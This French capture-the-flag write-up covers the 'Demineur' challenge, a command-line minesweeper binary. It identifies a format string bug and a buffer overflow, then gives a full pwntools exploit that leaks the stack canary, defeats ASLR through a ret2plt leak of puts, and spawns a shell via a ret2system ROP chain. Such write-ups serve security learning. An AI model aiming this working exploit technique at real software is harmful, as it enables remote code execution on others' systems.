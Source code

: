 # Demineur
## Description
Le challenge nous fourni un binaire, une libc et une addresse à laquelle nous connecter via netcat. En nous connectant, on se retrouve face à un jeu de démineur en CLI.
 

![Screenshot](demineur_1.png)

De plus, checksec nous indique la présence d'un canary, du bit NX et du full RELRO.

![Screenshot](demineur_2.png)

## Reverse

Les éléments importants à repérer lors de la rétro-ingénierie du binaire sont les suivants :

 - Lorsque nous choisissons la difficulté, il nous est possible de rentrer n'importe quelle chaîne de caractères.
 - L'affichage de la difficulté comporte un format string bug.
 - Il nous est possible d'overflow le buffer lorsque le programme nous demande si l'on est sûr de vouloir quitter le jeu.

## Le plan

Notre plan se déroulera en 4 étape :

1) Leak du canary grâce au format string bug.

2) Exploitation du buffer overflow avec une ropchain ret2plt, ret2main afin de leak le décalage appliqué par l'ASLR sur les librairies.

3) Calcul des addresses de `system` et `/bin/sh` à partir du leak.

4) Seconde exploitation du buffer overflow, cette fois-ci avec un ret2system.

```python
from pwn import *
import time

context.binary = "./resources/challenge"
elf = ELF("./resources/challenge")
libc = ELF("./resources/libc.so.6")

nc = remote("0.0.0.0", 1337) # Obviously for testing purpose

# Leaking canary using format string exploit
nc.recvuntil(b"[easy/medium/hard] :")
nc.sendline(b"%167$p")
nc.recvline()
nc.recvline()
nc.recvline()
canary = nc.recvline().strip()

log.success("Leaked value of canary : {}".format(hex(int(canary, 16))))

canary = p32(int(canary, 16))


# Leaking GOT address of puts using ret2plt

rop = ROP(elf)
rop.raw(canary*6)
rop.puts(elf.got["puts"])
rop.call(elf.sym["main"])

nc.recvuntil(b">>")
nc.sendline(b"3")
nc.recvuntil(b"Voulez-vous vraiment quitter Breizh deminage ? [oui/non]")
nc.sendline(rop.chain())
leak = nc.recvline()
print(leak)

leakedPuts = u32(leak[1:5])
libc.address = leakedPuts - libc.sym["puts"]

log.success("Libc base address: {}".format(hex(libc.address)))
time.sleep(5) # Waiting so the program can terminate operations

# Using ret2libc to get a shell
rop = ROP(elf)
rop.raw(canary*6)
rop.call(libc.sym["system"])
rop.call(libc.sym["exit"])
rop.raw(p32(next(libc.search(b"/bin/sh"))))

nc.recvuntil(b"[easy/medium/hard] :")
nc.sendline(b"hard")
nc.recvline()
nc.recvline()
nc.recvline()
nc.recvuntil(b">>")
nc.sendline(b"3")
nc.recvuntil(b"Voulez-vous vraiment quitter Breizh deminage ? [oui/non]")
nc.sendline(rop.chain())
nc.interactive()

```
![Screenshot](demineur_3.png)
